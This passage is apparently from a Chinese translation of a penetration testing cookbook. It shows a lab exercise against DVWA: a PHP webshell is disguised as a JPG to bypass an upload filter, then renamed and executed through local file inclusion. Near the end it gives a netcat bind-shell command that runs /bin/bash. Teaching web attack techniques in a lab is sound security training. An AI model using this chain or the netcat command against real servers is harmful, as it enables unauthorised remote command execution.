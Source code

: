这个文件会接受特殊图像文件（`webshell.jpg`）并将其重命名为`webshell.php`。

### 操作步骤

1.  首先，让我们尝试上传我们的 webshell。在 DVWA 中访问`Upload`之后尝试上传`webshell.php`，像这样：

    ![](https://github.com/OpenDocCN/freelearn-kali-zh/raw/master/docs/kali-web-pentest-cb/img/6-1-1.jpg)
    
    于是，这里对于我们能够上传的东西有个验证。这意味着我们需要上传图标文件，或更精确来说，带有`.jpg`，`.gif`或`.png`的图像文件。这就是为什么我们需要重命名脚本来还原原始文件的`.php`扩展，便于我们执行它。
    
2.  为了避免验证错误，我们需要将我们的 PHP 文件重命名为有效的扩展名。在终端中，我们需要访问 PHP 文件所在目录并创建它们的副本：

    ```
    cp rename.php rename.jpg 
    cp webshell.php webshell.jpg
    ```
    
3.  现在，让我们返回 DVWA 并尝试上传二者：

    ![](https://github.com/OpenDocCN/freelearn-kali-zh/raw/master/docs/kali-web-pentest-cb/img/6-1-2.jpg)

4.  一旦两个 JPG 文件都上传了，我们使用本地文件包含漏洞过来执行`rename.jpg`。访问文件包含部分并利用这个漏洞来包含`../../hackable/uploads/rename.jpg`：

    ![](https://github.com/OpenDocCN/freelearn-kali-zh/raw/master/docs/kali-web-pentest-cb/img/6-1-3.jpg)
    
    我们并没有得到这个文件执行的任何输出，我们需要假设`webshell.jpg `命名为`webshell.php`。
    
5.  如果它能工作，我们应该能够包含`../../hackable/uploads/ webshell.php`，让我们试试：

    ![](https://github.com/OpenDocCN/freelearn-kali-zh/raw/master/docs/kali-web-pentest-cb/img/6-1-4.jpg)
    
6.  在左上角的文本框中，输入`/sbin/ifconfig`并按下回车：

    ![](https://github.com/OpenDocCN/freelearn-kali-zh/raw/master/docs/kali-web-pentest-cb/img/6-1-5.jpg)
    
    并且它能够工作。就像图片中那样，服务器的 IP 是`192.168.56.102`。现在，我们可以在服务器中执行命令，通过将它们键入到文本框中，或者为`cmd`参数设置不同的值。
    
### 工作原理

在上传有效 JPG 文件时，我们所做的第一个测试是为了发现上传文件保存的路径，便于我们可以在`rename.php`中，以及表单的`action`中使用这个路径。

使用重命名脚本有两个重要原因：首先，上传页面只允许 JPG 文件，所以我们的脚本需要这个扩展名，其次，我们需要带参数调用我们的 webshell（要执行的命令），而我们从 Web 服务器调用图片时不能带参数。

PHP 中的`system()`函数是攻击核心，它所做的是，执行系统命令并显示输出。这允许我们将 webshell 文件从`.jpg`重命名为`.php`文件并执行我们指定为 GET 参数的命令。

### 更多

一旦我们上传并执行了服务端代码，我们有很多选择来攻陷服务器，例如，下列代码可以在绑定的 shell 中调用：

```
nc -lp 12345 -e /bin/bash
```

它打开服务器的 TCP 12345 端口并监听连接。连接建立之后，它会将接收的信息作为输入来执行`/bin/bash`，并把输出通过网络发给被连接的主机（攻击者主机）。
